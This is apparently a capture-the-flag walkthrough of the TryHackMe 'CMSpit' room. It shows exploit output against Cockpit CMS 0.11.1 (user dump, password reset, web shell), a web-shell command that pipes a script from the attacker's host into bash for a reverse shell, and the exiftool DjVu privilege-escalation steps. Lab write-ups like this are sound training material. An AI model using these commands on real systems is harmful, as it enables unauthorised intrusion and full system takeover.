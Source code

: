 # 79 - CMSpit (CockPit CMS exploitation, MongoDB exploitation)

Room Link --> [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
nmap -Pn -n -vvv -T4 10.10.152.31 -p-


```
{% endcode %}

The webserver is running `CockPit CMS version 0.11.1` .

Default credentials didn't work.&#x20;

Some Resources used to answer the Questions:

* [https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/](https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/)
*

### Users Enumeration

Tool link --> [https://github.com/0z09e/CVE-2020-35846](https://github.com/0z09e/CVE-2020-35846)

```bash
dking@dking ~/Downloads$ python3 exploit.py http://10.10.152.31/                                            2 ↵  
[*] Target : http://10.10.152.31
[*] Sending request to dump users.
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
[+] Changing password of admin
[*] Requesting for password reset token
[+] Found token for user admin : rp-247cb14d16593ad15dcaf8483dccc6906557d48fa0ce0
[+] Dumping admin's data
[+] Username : admin
[+] Email : admin@yourdomain.de
[+] Group : admin
[+] Hash : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*] Resetting admin's password.
[+] Password reset succcessful
[+] New password of admin : P@ssw0rd
[*] Logging in as admin
[+] Successfully logged in as admin
[+] Bingoo, File has been deployed successfully : 1HpuLW.php
[+] File's location : http://10.10.152.31/1HpuLW.php
[*] Execution example : http://10.10.152.31/1HpuLW.php?cmd=id
[+] Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Good luck for Privilege Escalation :)

```

```
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
```

Password for `admin` has been reset to `P@ssw0rd`&#x20;

We have RCE on this link --> [http://10.10.152.31/1HpuLW.php?cmd=id](http://10.10.152.31/1HpuLW.php?cmd=id)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Copied bash rev shell into a `shell.sh` in my kali, then host it with python3 web server, setup NC listener then execute:&#x20;

[http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash)

And got shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to stux

Goto `/home/stux` dir, there is a `.dbshell` file there it contains history of MongoDB cmds.

```bash
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

`stux : p4ssw0rdhack3d!123` .

And we ssh into stux acct.

### Priv Esc to root

`sudo -l` .

```bash
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

Check exiftool version: `exiftool -ver` --> 12.05

Search for the exploit in google.

[https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2](https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2)

```
1. Convert any PDF file to .djvu;
pdf2djvu document.pdf -o fuzz.djvu 

2. create file.dsed
(metadata
        ("\c${system '/bin/bash'}")
.

3. Generate the exploit file
djvumake fuzz.djvu INFO=0,0 BGjp=/dev/null ANTa=file.dsed

4. launch it.
sudo /usr/local/bin/exiftool fuzz.djvu
```

Got root.

